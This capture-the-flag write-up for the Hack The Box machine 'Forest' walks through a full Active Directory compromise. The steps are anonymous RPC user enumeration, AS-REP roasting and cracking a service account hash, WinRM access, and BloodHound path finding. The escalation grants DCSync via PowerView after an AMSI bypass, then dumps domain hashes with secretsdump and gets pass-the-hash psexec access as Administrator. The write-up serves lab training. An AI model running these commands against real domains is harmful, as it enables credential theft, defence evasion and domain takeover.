

# Table of Contents

1.  [Enumeration](#org3877b45)
    1.  [DNS - UDP/TCP 53](#org7159f3b)
    2.  [SMB - TCP 445](#org4cad4ed)
    3.  [RPC](#orgc74194c)
2.  [Abusing svc-alfresco](#org13212d9)
3.  [Privesc to Administrator](#org113ade2)

# Enumeration

We begin our work with a fairly comprehensive scan.

    nmap -sC -sV 10.10.10.161
    Starting Nmap 7.94SVN ( https://nmap.org ) at 2023-12-06 14:45 EST
    Nmap scan report for 10.10.10.161
    Host is up (0.046s latency).
    Not shown: 989 closed tcp ports (conn-refused)
    PORT     STATE SERVICE      VERSION
    53/tcp   open  domain       Simple DNS Plus
    88/tcp   open  kerberos-sec Microsoft Windows Kerberos (server time: 2023-12-06 19:52:52Z)
    135/tcp  open  msrpc        Microsoft Windows RPC
    139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
    389/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
    445/tcp  open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds (workgroup: HTB)
    464/tcp  open  kpasswd5?
    593/tcp  open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
    636/tcp  open  tcpwrapped
    3268/tcp open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
    3269/tcp open  tcpwrapped
    Service Info: Host: FOREST; OS: Windows; CPE: cpe:/o:microsoft:windows
    
    Host script results:
    | smb-os-discovery: 
    |   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
    |   Computer name: FOREST
    |   NetBIOS computer name: FOREST\x00
    |   Domain name: htb.local
    |   Forest name: htb.local
    |   FQDN: FOREST.htb.local
    |_  System time: 2023-12-06T11:52:56-08:00
    | smb2-time: 
    |   date: 2023-12-06T19:52:57
    |_  start_date: 2023-12-06T19:22:19
    | smb2-security-mode: 
    |   3:1:1: 
    |_    Message signing enabled and required
    |_clock-skew: mean: 2h46m49s, deviation: 4h37m08s, median: 6m48s
    | smb-security-mode: 
    |   account_used: <blank>
    |   authentication_level: user
    |   challenge_response: supported
    |_  message_signing: required
    
    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 21.07 seconds

## DNS - UDP/TCP 53

Let's go to make querry to this DNS

    dig  @10.10.10.161 htb.local
    
    ; <<>> DiG 9.11.5-P4-5.1+b1-Debian <<>> @10.10.10.161 htb.local
    ; (1 server found)
    ;; global options: +cmd
    ;; Got answer:
    ;; WARNING: .local is reserved for Multicast DNS
    ;; You are currently testing what happens when an mDNS query is leaked to DNS
    ;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 62514
    ;; flags: qr aa rd ra; QUERY: 1, ANSWER: 1, AUTHORITY: 0, ADDITIONAL: 1
    
    ;; OPT PSEUDOSECTION:
    ; EDNS: version: 0, flags:; udp: 4000
    ; COOKIE: bbee567cd8172763 (echoed)
    ;; QUESTION SECTION:
    ;htb.local.                     IN      A
    
    ;; ANSWER SECTION:
    htb.local.              600     IN      A       10.10.10.161
    
    ;; Query time: 30 msec
    ;; SERVER: 10.10.10.161#53(10.10.10.161)
    ;; WHEN: Mon Oct 14 14:34:17 EDT 2019
    ;; MSG SIZE  rcvd: 66	     

    dig  @10.10.10.161 forest.htb.local
    
    ; <<>> DiG 9.11.5-P4-5.1+b1-Debian <<>> @10.10.10.161 forest.htb.local
    ; (1 server found)
    ;; global options: +cmd
    ;; Got answer:
    ;; WARNING: .local is reserved for Multicast DNS
    ;; You are currently testing what happens when an mDNS query is leaked to DNS
    ;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 12842
    ;; flags: qr aa rd ra; QUERY: 1, ANSWER: 1, AUTHORITY: 0, ADDITIONAL: 1
    
    ;; OPT PSEUDOSECTION:
    ; EDNS: version: 0, flags:; udp: 4000
    ; COOKIE: ca9fa59dce2451be (echoed)
    ;; QUESTION SECTION:
    ;forest.htb.local.              IN      A
    
    ;; ANSWER SECTION:
    forest.htb.local.       3600    IN      A       10.10.10.161
    
    ;; Query time: 150 msec
    ;; SERVER: 10.10.10.161#53(10.10.10.161)
    ;; WHEN: Mon Oct 14 14:35:19 EDT 2019
    ;; MSG SIZE  rcvd: 73	     

We can resolve htb.local and forest.htb.local from this DNS server

But it doesn’t let us do a zone transfer:

    dig axfr  @10.10.10.161 htb.local
    
    ; <<>> DiG 9.11.5-P4-5.1+b1-Debian <<>> axfr @10.10.10.161 htb.local
    ; (1 server found)
    ;; global options: +cmd
       ; Transfer failed.

## SMB - TCP 445

We try to enter as Guest in the smb

    smbmap -H 10.10.10.161
    [+] Finding open SMB ports....
    [+] User SMB session establishd on 10.10.10.161...
    [+] IP: 10.10.10.161:445        Name: 10.10.10.161                                      
            Disk                                                    Permissions
            ----                                                    -----------
            [!] Access Denied

     smbmap -H 10.10.10.161 -u Guest
    [+] Finding open SMB ports....
    [!] Authentication error occured
    [!] SMB SessionError: STATUS_LOGON_FAILURE(The attempted logon is invalid. This is either due to a bad username or authentication information.)
    [!] Authentication error on 10.10.10.161

    smbclient -N -L //10.10.10.161
    Anonymous login successful
    
            Sharename       Type      Comment
            ---------       ----      -------
    smb1cli_req_writev_submit: called for dialect[SMB3_11] server[10.10.10.161]
    Error returning browse list: NT_STATUS_REVISION_MISMATCH
    Reconnecting with SMB1 for workgroup listing.
    do_connect: Connection to 10.10.10.161 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
    Failed to connect with SMB1 -- no workgroup available

## RPC

We can try to check over RPC to enumerate users.

In first we have to login with anonymus.

    rpcclient -U "" -N 10.10.10.161
    rpcclient $>

we can now enumerate the user with `enumdomusers`.

    rpcclient $> enumdomusers              
    user:[Administrator] rid:[0x1f4]       
    user:[Guest] rid:[0x1f5]               
    user:[krbtgt] rid:[0x1f6]              
    user:[DefaultAccount] rid:[0x1f7]      
    user:[$331000-VK4ADACQNUCA] rid:[0x463]
    user:[SM_2c8eef0a09b545acb] rid:[0x464]
    user:[SM_ca8c2ed5bdab4dc9b] rid:[0x465]
    user:[SM_75a538d3025e4db9a] rid:[0x466]
    user:[SM_681f53d4942840e18] rid:[0x467]
    user:[SM_1b41c9286325456bb] rid:[0x468]
    user:[SM_9b69f1b9d2cc45549] rid:[0x469]
    user:[SM_7c96b981967141ebb] rid:[0x46a]
    user:[SM_c75ee099d0a64c91b] rid:[0x46b]
    user:[SM_1ffab36a2f5f479cb] rid:[0x46c]
    user:[HealthMailboxc3d7722] rid:[0x46e]
    user:[HealthMailboxfc9daad] rid:[0x46f]
    user:[HealthMailboxc0a90c9] rid:[0x470]
    user:[HealthMailbox670628e] rid:[0x471]
    user:[HealthMailbox968e74d] rid:[0x472]
    user:[HealthMailbox6ded678] rid:[0x473]
    user:[HealthMailbox83d6781] rid:[0x474]
    user:[HealthMailboxfd87238] rid:[0x475]
    user:[HealthMailboxb01ac64] rid:[0x476]
    user:[HealthMailbox7108a4e] rid:[0x477]
    user:[HealthMailbox0659cc1] rid:[0x478]
    user:[sebastien] rid:[0x479]
    user:[lucinda] rid:[0x47a]
    user:[svc-alfresco] rid:[0x47b]  
    user:[andy] rid:[0x47e]                
    user:[mark] rid:[0x47f]                
    user:[santi] rid:[0x480]

we can list the groups as well.

    rpcclient $> enumdomgroups
    group:[Enterprise Read-only Domain Controllers] rid:[0x1f2]          
    group:[Domain Admins] rid:[0x200]
    group:[Domain Users] rid:[0x201]
    group:[Domain Guests] rid:[0x202]
    group:[Domain Computers] rid:[0x203]
    group:[Domain Controllers] rid:[0x204]
    group:[Schema Admins] rid:[0x206]
    group:[Enterprise Admins] rid:[0x207]
    group:[Group Policy Creator Owners] rid:[0x208]
    group:[Read-only Domain Controllers] rid:[0x209]
    group:[Cloneable Domain Controllers] rid:[0x20a]
    group:[Protected Users] rid:[0x20d]
    group:[Key Admins] rid:[0x20e]            
    group:[Enterprise Key Admins] rid:[0x20f]
    group:[DnsUpdateProxy] rid:[0x44e]
    group:[Organization Management] rid:[0x450]
    group:[Recipient Management] rid:[0x451]                 
    group:[View-Only Organization Management] rid:[0x452]
    group:[Public Folder Management] rid:[0x453]
    group:[UM Management] rid:[0x454]
    group:[Help Desk] rid:[0x455]
    group:[Records Management] rid:[0x456]
    group:[Discovery Management] rid:[0x457]
    group:[Server Management] rid:[0x458]
    group:[Delegated Setup] rid:[0x459]
    group:[Hygiene Management] rid:[0x45a]
    group:[Compliance Management] rid:[0x45b]
    group:[Security Reader] rid:[0x45c]
    group:[Security Administrator] rid:[0x45d]
    group:[Exchange Servers] rid:[0x45e]
    group:[Exchange Trusted Subsystem] rid:[0x45f]
    group:[Managed Availability Servers] rid:[0x460]
    group:[Exchange Windows Permissions] rid:[0x461]
    group:[ExchangeLegacyInterop] rid:[0x462]
    group:[$D31000-NSEL5BRJ63V7] rid:[0x46d]
    group:[Service Accounts] rid:[0x47c]
    group:[Privileged IT Accounts] rid:[0x47d]
    group:[test] rid:[0x13ed]

We can also look at a group for it’s members. For example, the Domain Admins group has one member, rid 0x1f4:

    rpcclient $> querygroup 0x200          
            Group Name:     Domain Admins     
            Description:    Designated administrators of the domain
            Group Attribute:7              
            Num Members:1                  
    rpcclient $> querygroupmem 0x200
    rid:[0x1f4] attr:[0x7]

That’s the Administrator account:

    rpcclient $> queryuser 0x1f4            
            User Name   :   Administrator
            Full Name   :   Administrator
            Home Drive  :   
            Dir Drive   :      
            Profile Path:      
            Logon Script:
            Description :   Built-in account for administering the computer/domain
            Workstations:
            Comment     :
            Remote Dial :
            Logon Time               :      Mon, 07 Oct 2019 06:57:07 EDT
            Logoff Time              :      Wed, 31 Dec 1969 19:00:00 EST
            Kickoff Time             :      Wed, 31 Dec 1969 19:00:00 EST
            Password last set Time   :      Wed, 18 Sep 2019 13:09:08 EDT
            Password can change Time :      Thu, 19 Sep 2019 13:09:08 EDT
            Password must change Time:      Wed, 30 Oct 2019 13:09:08 EDT
            unknown_2[0..31]...
            user_rid :      0x1f4
            group_rid:      0x201
            acb_info :      0x00000010
            fields_present: 0x00ffffff
            logon_divs:     168
            bad_password_count:     0x00000000
            logon_count:    0x00000031
            padding1[0..7]...
            logon_hrs[0..21]...

Other way for do that consists to lanch `unum4linux` for try to get valid list of **User**.

    enum4linux 10.10.10.161
    Starting enum4linux v0.9.1 ( http://labs.portcullis.co.uk/application/enum4linux/ ) on Wed Dec  6 15:06:30 2023
    
     =========================================( Target Information )=========================================
    
    Target ........... 10.10.10.161                                                                                                                                                                                          
    RID Range ........ 500-550,1000-1050
    Username ......... ''
    Password ......... ''
    Known Usernames .. administrator, guest, krbtgt, domain admins, root, bin, none
    
    
     ============================( Enumerating Workgroup/Domain on 10.10.10.161 )============================
    
    
    [E] Can't find workgroup/domain                                                                                                                                                                                          
    
    
    
     ================================( Nbtstat Information for 10.10.10.161 )================================
    
    Looking up status of 10.10.10.161                                                                                                                                                                                        
    No reply from 10.10.10.161
    
     ===================================( Session Check on 10.10.10.161 )===================================
    
    
    [+] Server 10.10.10.161 allows sessions using username '', password ''                                                                                                                                                   
    
    
     ================================( Getting domain SID for 10.10.10.161 )================================
    
    Domain Name: HTB                                                                                                                                                                                                         
    Domain Sid: S-1-5-21-3072663084-364016917-1341370565
    
    [+] Host is part of a domain (not a workgroup)                                                                                                                                                                           
    
    
     ===================================( OS information on 10.10.10.161 )===================================
    
    
    [E] Can't get OS info with smbclient                                                                                                                                                                                     
    
    
    [+] Got OS info for 10.10.10.161 from srvinfo:                                                                                                                                                                           
    do_cmd: Could not initialise srvsvc. Error was NT_STATUS_ACCESS_DENIED                                                                                                                                                   
    
    
     =======================================( Users on 10.10.10.161 )=======================================
    
    index: 0x2137 RID: 0x463 acb: 0x00020015 Account: $331000-VK4ADACQNUCA  Name: (null)    Desc: (null)                                                                                                                     
    index: 0xfbc RID: 0x1f4 acb: 0x00000010 Account: Administrator  Name: Administrator     Desc: Built-in account for administering the computer/domain
    index: 0x2369 RID: 0x47e acb: 0x00000210 Account: andy  Name: Andy Hislip       Desc: (null)
    index: 0xfbe RID: 0x1f7 acb: 0x00000215 Account: DefaultAccount Name: (null)    Desc: A user account managed by the system.
    index: 0xfbd RID: 0x1f5 acb: 0x00000215 Account: Guest  Name: (null)    Desc: Built-in account for guest access to the computer/domain
    index: 0x2352 RID: 0x478 acb: 0x00000210 Account: HealthMailbox0659cc1  Name: HealthMailbox-EXCH01-010  Desc: (null)
    index: 0x234b RID: 0x471 acb: 0x00000210 Account: HealthMailbox670628e  Name: HealthMailbox-EXCH01-003  Desc: (null)
    index: 0x234d RID: 0x473 acb: 0x00000210 Account: HealthMailbox6ded678  Name: HealthMailbox-EXCH01-005  Desc: (null)
    index: 0x2351 RID: 0x477 acb: 0x00000210 Account: HealthMailbox7108a4e  Name: HealthMailbox-EXCH01-009  Desc: (null)
    index: 0x234e RID: 0x474 acb: 0x00000210 Account: HealthMailbox83d6781  Name: HealthMailbox-EXCH01-006  Desc: (null)
    index: 0x234c RID: 0x472 acb: 0x00000210 Account: HealthMailbox968e74d  Name: HealthMailbox-EXCH01-004  Desc: (null)
    index: 0x2350 RID: 0x476 acb: 0x00000210 Account: HealthMailboxb01ac64  Name: HealthMailbox-EXCH01-008  Desc: (null)
    index: 0x234a RID: 0x470 acb: 0x00000210 Account: HealthMailboxc0a90c9  Name: HealthMailbox-EXCH01-002  Desc: (null)
    index: 0x2348 RID: 0x46e acb: 0x00000210 Account: HealthMailboxc3d7722  Name: HealthMailbox-EXCH01-Mailbox-Database-1118319013  Desc: (null)
    index: 0x2349 RID: 0x46f acb: 0x00000210 Account: HealthMailboxfc9daad  Name: HealthMailbox-EXCH01-001  Desc: (null)
    index: 0x234f RID: 0x475 acb: 0x00000210 Account: HealthMailboxfd87238  Name: HealthMailbox-EXCH01-007  Desc: (null)
    index: 0x2372 RID: 0x2581 acb: 0x00000010 Account: john Name: (null)    Desc: (null)
    index: 0xff4 RID: 0x1f6 acb: 0x00000011 Account: krbtgt Name: (null)    Desc: Key Distribution Center Service Account
    index: 0x2360 RID: 0x47a acb: 0x00000210 Account: lucinda       Name: Lucinda Berger    Desc: (null)
    index: 0x236a RID: 0x47f acb: 0x00000210 Account: mark  Name: Mark Brandt       Desc: (null)
    index: 0x236b RID: 0x480 acb: 0x00000210 Account: santi Name: Santi Rodriguez   Desc: (null)
    index: 0x235c RID: 0x479 acb: 0x00000210 Account: sebastien     Name: Sebastien Caron   Desc: (null)
    index: 0x215a RID: 0x468 acb: 0x00020011 Account: SM_1b41c9286325456bb  Name: Microsoft Exchange Migration      Desc: (null)
    index: 0x2161 RID: 0x46c acb: 0x00020011 Account: SM_1ffab36a2f5f479cb  Name: SystemMailbox{8cc370d3-822a-4ab8-a926-bb94bd0641a9}       Desc: (null)
    index: 0x2156 RID: 0x464 acb: 0x00020011 Account: SM_2c8eef0a09b545acb  Name: Microsoft Exchange Approval Assistant     Desc: (null)
    index: 0x2159 RID: 0x467 acb: 0x00020011 Account: SM_681f53d4942840e18  Name: Discovery Search Mailbox  Desc: (null)
    index: 0x2158 RID: 0x466 acb: 0x00020011 Account: SM_75a538d3025e4db9a  Name: Microsoft Exchange        Desc: (null)
    index: 0x215c RID: 0x46a acb: 0x00020011 Account: SM_7c96b981967141ebb  Name: E4E Encryption Store - Active     Desc: (null)
    index: 0x215b RID: 0x469 acb: 0x00020011 Account: SM_9b69f1b9d2cc45549  Name: Microsoft Exchange Federation Mailbox     Desc: (null)
    index: 0x215d RID: 0x46b acb: 0x00020011 Account: SM_c75ee099d0a64c91b  Name: Microsoft Exchange        Desc: (null)
    index: 0x2157 RID: 0x465 acb: 0x00020011 Account: SM_ca8c2ed5bdab4dc9b  Name: Microsoft Exchange        Desc: (null)
    index: 0x2365 RID: 0x47b acb: 0x00010210 Account: svc-alfresco  Name: svc-alfresco      Desc: (null)
    
    user:[Administrator] rid:[0x1f4]
    user:[Guest] rid:[0x1f5]
    user:[krbtgt] rid:[0x1f6]
    user:[DefaultAccount] rid:[0x1f7]
    user:[$331000-VK4ADACQNUCA] rid:[0x463]
    user:[SM_2c8eef0a09b545acb] rid:[0x464]
    user:[SM_ca8c2ed5bdab4dc9b] rid:[0x465]
    user:[SM_75a538d3025e4db9a] rid:[0x466]
    user:[SM_681f53d4942840e18] rid:[0x467]
    user:[SM_1b41c9286325456bb] rid:[0x468]
    user:[SM_9b69f1b9d2cc45549] rid:[0x469]
    user:[SM_7c96b981967141ebb] rid:[0x46a]
    user:[SM_c75ee099d0a64c91b] rid:[0x46b]
    user:[SM_1ffab36a2f5f479cb] rid:[0x46c]
    user:[HealthMailboxc3d7722] rid:[0x46e]
    user:[HealthMailboxfc9daad] rid:[0x46f]
    user:[HealthMailboxc0a90c9] rid:[0x470]
    user:[HealthMailbox670628e] rid:[0x471]
    user:[HealthMailbox968e74d] rid:[0x472]
    user:[HealthMailbox6ded678] rid:[0x473]
    user:[HealthMailbox83d6781] rid:[0x474]
    user:[HealthMailboxfd87238] rid:[0x475]
    user:[HealthMailboxb01ac64] rid:[0x476]
    user:[HealthMailbox7108a4e] rid:[0x477]
    user:[HealthMailbox0659cc1] rid:[0x478]
    user:[sebastien] rid:[0x479]
    user:[lucinda] rid:[0x47a]
    user:[svc-alfresco] rid:[0x47b]
    user:[andy] rid:[0x47e]
    user:[mark] rid:[0x47f]
    user:[santi] rid:[0x480]
    user:[john] rid:[0x2581]
    
     =================================( Share Enumeration on 10.10.10.161 )=================================
    
    do_connect: Connection to 10.10.10.161 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)                                                                                                                                  
    <STEP>

Retrieved!!
We have just find an interesting user call `svc-alfresco`.

Now with impaket let's try to get TGT token of user.

    GetNPUsers.py htb.local/svc-alfresco -dc-ip 10.10.10.161
    Impacket v0.11.0 - Copyright 2023 Fortra
    
    Password:
    [*] Cannot authenticate svc-alfresco, getting its TGT
    $krb5asrep$23$svc-alfresco@HTB.LOCAL:8f211<redacted>

Retrived too!!

# Abusing svc-alfresco

We have couch the TGT token of this user so let's try to crack it with us best frind hashcat.

    hashcat -m 18200 svc-alfresco.kerb /usr/share/wordlists/rockyou.txt --force
    ...[snip]...
    $krb5asrep$23$svc-alfresco@HTB:<redacted>:<redacted>
    ...[snip]...

Password taken!!

Now all we have to do is to enter.

    evil-winrm -i 10.10.10.161 -u svc-alfresco -p <redacted>

From here We can grab user.txt.

    *Evil-WinRM* PS C:\Users\svc-alfresco\desktop> type user.txt

# Privesc to Administrator

First we create a docker bloodhound environment

    curl -o docker-compose.yml https://raw.githubusercontent.com/SpecterOps/bloodhound/main/examples/docker-compose/docker-compose.yml && docker-compose -f docker-compose.yml up

Once configured and downloaded sharphound all we have to do is upload it to the machine.

    *Evil-WinRM* PS C:\Users\svc-alfresco> upload ../../Tools/SharpHound.exe ./
    
    Info: Uploading /home/kali/CTF/HTB/../../Tools/SharpHound.exe to C:\Users\svc-alfresco\
    
    Data: 1395368 bytes of 1395368 bytes copied
    
    Info: Upload successful!

And run it.

    *Evil-WinRM* PS C:\Users\svc-alfresco> ./SharpHound.exe
    2023-12-06T12:27:53.1805948-08:00|INFORMATION|This version of SharpHound is compatible with the 4.3.1 Release of BloodHound
    2023-12-06T12:27:53.6649703-08:00|INFORMATION|Resolved Collection Methods: Group, LocalAdmin, Session, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote
    2023-12-06T12:27:53.7899651-08:00|INFORMATION|Initializing SharpHound at 12:27 PM on 12/6/2023
    2023-12-06T12:27:54.2587185-08:00|INFORMATION|[CommonLib LDAPUtils]Found usable Domain Controller for htb.local : FOREST.htb.local
    2023-12-06T12:27:54.3993665-08:00|INFORMATION|Flags: Group, LocalAdmin, Session, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote
    2023-12-06T12:27:55.0712426-08:00|INFORMATION|Beginning LDAP search for htb.local
    2023-12-06T12:27:55.2274778-08:00|INFORMATION|Producer has finished, closing LDAP channel
    2023-12-06T12:27:55.2274778-08:00|INFORMATION|LDAP channel closed, waiting for consumers
    2023-12-06T12:28:25.9307033-08:00|INFORMATION|Status: 0 objects finished (+0 0)/s -- Using 38 MB RAM
    2023-12-06T12:28:53.4932225-08:00|INFORMATION|Consumers finished, closing output channel
    Closing writers
    2023-12-06T12:28:53.5401294-08:00|INFORMATION|Output channel closed, waiting for output task to complete
    2023-12-06T12:28:53.6339737-08:00|INFORMATION|Status: 162 objects finished (+162 2.793103)/s -- Using 46 MB RAM
    2023-12-06T12:28:53.6339737-08:00|INFORMATION|Enumeration finished in 00:00:58.5727868
    2023-12-06T12:28:53.7119877-08:00|INFORMATION|Saving cache with stats: 119 ID to type mappings.
     118 name to SID mappings.
     0 machine sid mappings.
     2 sid to domain mappings.
     0 global catalog mappings.
     2023-12-06T12:28:53.7276115-08:00|INFORMATION|SharpHound Enumeration Completed at 12:28 PM on 12/6/2023! Happy Graphing!

Let's download them from the victim and uplod them on bloodhound.

We have a nice root to follow.

let's follow the suggested commands and see where we get to.

One of the paths shows that the Exchange Windows Permissions group has WriteDacl
privileges on the Domain. The WriteDACL privilege gives a user the ability to add ACLs to an
object. This means that we can add a user to this group and give them DCSync privileges.
Go back to the WinRM shell and add a new user to Exchange Windows Permissions as well as
the Remote Management Users group.

    *Evil-WinRM* PS C:\Users\svc-alfresco\Documents> net user john testtest1 /add /domain
    The command completed successfully.

    *Evil-WinRM* PS C:\Users\svc-alfresco\Documents> net group "Exchange Windows Permissions" john /add
    The command completed successfully.

    *Evil-WinRM* PS C:\Users\svc-alfresco\Documents> net localgroup "Remote Management Users" john /add
    The command completed successfully.

The commands above create a new user named john and add him to the required groups. Next,
download the [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1) script and import it into the current session.

    *Evil-WinRM* PS C:\Users\svc-alfresco\Documents> upload ../../Tools/PowerView.ps1 ../
    
    Info: Uploading /home/kali/CTF/HTB/../../Tools/PowerView.ps1 to C:\Users\svc-alfresco\Documents\..\
    
    Data: 1027036 bytes of 1027036 bytes copied
    
    Info: Upload successful!

    *Evil-WinRM* PS C:\Users\svc-alfresco> Bypass-4MSI
    
    Info: Patching 4MSI, please be patient...
    
    [+] Success!

The Bypass-4MSI command is used to evade defender before importing the script. Next, we can
use the Add-ObjectACL with john's credentials, and give him DCSync rights.

    *Evil-WinRM* PS C:\Users\svc-alfresco> . ./PowerView.ps1

    .*Evil-WinRM* PS C:\Users\svc-alfresco> $pass = convertto-securestring 'testtest1' -asplain -force
    *Evil-WinRM* PS C:\Users\svc-alfresco> $cred = new-object system.management.automation.pscredential('htb\john', $pass)
    *Evil-WinRM* PS C:\Users\svc-alfresco> Add-ObjectACL -PrincipalIdentity john -Credential $cred -Rights DCSync

The secretsdump script from Impacket can now be run as john, and used to reveal the NTLM
hashes for all domain users.

    secretsdump.py htb/john@10.10.10.161
    Impacket v0.11.0 - Copyright 2023 Fortra
    
    Password:
    [-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
    [*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
    [*] Using the DRSUAPI method to get NTDS.DIT secrets
    htb.local\Administrator:500:<redacted>:::
    Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::

The obtained Domain Admin hash can be used to login via psexec.

    psexec.py administrator@10.10.10.161 -hashes <redacted>
    Impacket v0.11.0 - Copyright 2023 Fortra
    
    [*] Requesting shares on 10.10.10.161.....
    [*] Found writable share ADMIN$
    [*] Uploading file CnpvMmtm.exe
    [*] Opening SVCManager on 10.10.10.161.....
    [*] Creating service rISg on 10.10.10.161.....
    [*] Starting service rISg.....
    [!] Press help for extra shell commands
    Microsoft Windows [Version 10.0.14393]
    (c) 2016 Microsoft Corporation. All rights reserved.
    
    C:\Windows\system32> dir \users\administrators\desktop
    The system cannot find the file specified.
    
    C:\Windows\system32> dir \users\administrator\desktop
     Volume in drive C has no label.
     Volume Serial Number is 61F2-A88F
    
     Directory of C:\users\administrator\desktop
    
    09/23/2019  01:15 PM    <DIR>          .
    09/23/2019  01:15 PM    <DIR>          ..
    12/06/2023  11:22 AM                34 root.txt
                   1 File(s)             34 bytes
                   2 Dir(s)  10,459,901,952 bytes free

